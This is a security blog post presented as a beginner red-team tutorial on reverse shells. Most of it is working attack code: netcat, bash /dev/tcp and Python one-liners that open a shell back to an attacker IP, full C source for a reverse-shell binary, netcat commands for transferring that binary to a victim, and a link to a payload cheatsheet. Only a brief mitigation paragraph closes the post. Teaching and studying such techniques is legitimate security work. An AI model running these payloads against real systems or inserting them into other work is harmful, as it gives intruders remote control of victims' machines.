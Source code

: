```yaml
---
title:  "Reverse shells"
date:   2021-09-11 10:00:00 +0600
header:
  teaser: "/assets/images/4/2021-09-16_11-26.png"
categories: 
  - tutorial
tags:
  - red team
  - windows
  - pentest
  - malware
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![reverse shells](/assets/images/4/2021-09-16_11-26.png){:class="img-responsive"}

## what is reverse shell?

Reverse shell or often called connect-back shell is remote shell introduced from the target by connecting back to the attacker machine and spawning target shell on the attacker machine. This usually used during exploitation process to gain control of the remote machine.

![rev shells](/assets/images/4/shells.png){:class="img-responsive"}

The reverse shell can take the advantage of common outbound ports such as port `80, 443, 8080` and etc.

The reverse shell usually used when the target victim machine is blocking incoming connection from certain port by firewall. To bypass this firewall restriction, red teamers and pentesters use reverse shells.

But, there is a caveat. This exposes the control server of the attacker and traces might pickup by network security monitoring services of target network.

There are three steps to get a reverse shell.  
Firstly, attacker exploit a vulnerability on a target system or network with the ability to perform a code execution.  
Then attacker setup listener on his own machine.  
Then attacker injecting reverse shell on vulnerable system to exploit the vulnerability.

There is one more caveat. In real cyber attacks, the reverse shell can also be obtained through social engineering, for example, a piece of malware installed on a local workstation via a phishing email or a malicious website might initiate an outgoing connection to a command server and provide hackers with a reverse shell capability.

![social engineering](/assets/images/4/shells2.png){:class="img-responsive"}

The purpose of this post is not to exploit a vulnerability in the target host or network, but the idea is to find a vulnerability that can be leverage to perform a code execution.

Depending on which system is installed on the victim and what services are running there, the reverse shell will be different, it may be `php, python, jsp` etc.

***

## listener

For simplicity, in this example, the victim allow outgoing connection on any port (default iptables firewall rule). In our case we use `4444` as a listener port. You can change it to your preferable port you like. Listener could be any program/utility that can open TCP/UDP connections or sockets. In most cases I like to use `nc` or `netcat` utility.

```bash
nc -lvp 4444
```

In this case `-l` listen, `-v` verbose and `-p` port 4444 on every interface. You can also add `-n` for numeric only IP addresses, not DNS.

![listener](/assets/images/4/2021-09-11_17-59.png){:class="img-responsive"}

***

## run reverse shell (examples)

Again for simplicity, in our examples target is a linux machine.   
**1. netcat**   
run:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

where `10.9.1.6` is your attacker's machine IP and `4444` is listening port.   

![netcat](/assets/images/4/2021-09-11_18-04.png){:class="img-responsive"}

**2. netcat without -e**    
Newer linux machine by default has traditional netcat with `GAPING_SECURITY_HOLE` disabled, it means you don't have the `-e` option of netcat.

In this case, in the victim machine run:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat without e](/assets/images/4/2021-09-11_18-23.png){:class="img-responsive"}

Here, I've first created a named pipe (AKA FIFO) called `p` using the `mkfifo` command. The `mkfifo` command will create things in the file system, and here use it as a "backpipe" that is of type `p`, which is a named pipe. This FIFO will be used to shuttle data back to our shell's input. I created my backpipe in `/tmp` because pretty much any account is allowed to write there.

**3. bash**   
This will not work on old debian-based linux distributions.   
run:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](/assets/images/4/2021-09-11_18-12.png){:class="img-responsive"}

**4. python**

To create a semi-interactive shell using python, run:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](/assets/images/4/2021-09-11_18-36.png){:class="img-responsive"}

More examples: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

***

## create reverse shell in C
My favorite part. Since I came to cyber security with a programming background, I enjoy doing some things "reinventing the wheel", it helps to understand some things as I am also learning in my path.

As I wrote earlier, we will write a reverse shell running on Linux (target machine).   

Create file `shell.c`:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "10.9.1.6";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Let's compile this:
```bash
gcc -o shell shell.c -w
```

![c rev shell compile](/assets/images/4/2021-09-11_18-53.png){:class="img-responsive"}

*If you compile for 32-bit linux run:* ```gcc -o shell -m32 shell.c -w```

Let's go to transfer file to victim's machine. File transfer is considered to be one of the most important steps involved in post exploitation (as I wrote earlier, we do not consider exploitation step).

We will use the tool that is known as the Swiss knife of the hacker, netcat.

on victim machine run:
```bash
nc -lvp 4444 > shell
```

on attacker machine run:
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

![file transfer via netcat](/assets/images/4/2021-09-11_19-09.png){:class="img-responsive"}

check:
```bash
./shell
```

![run](/assets/images/4/2021-09-11_19-41.png){:class="img-responsive"}

[Source code in Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

## mitigation

Unfortunately, there is no way to completely block reverse shells. Unless you are deliberately using reverse shells for remote administration, any reverse shell connections are likely to be malicious. To limit exploitation, you can lock down outgoing connectivity to allow only specific remote IP addresses and ports for the required services. This might be achieved by sandboxing or running the server in a minimal container.

I hope this post was at least a little useful for entry level cyber security specialists (and possibly even professionals).  
Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*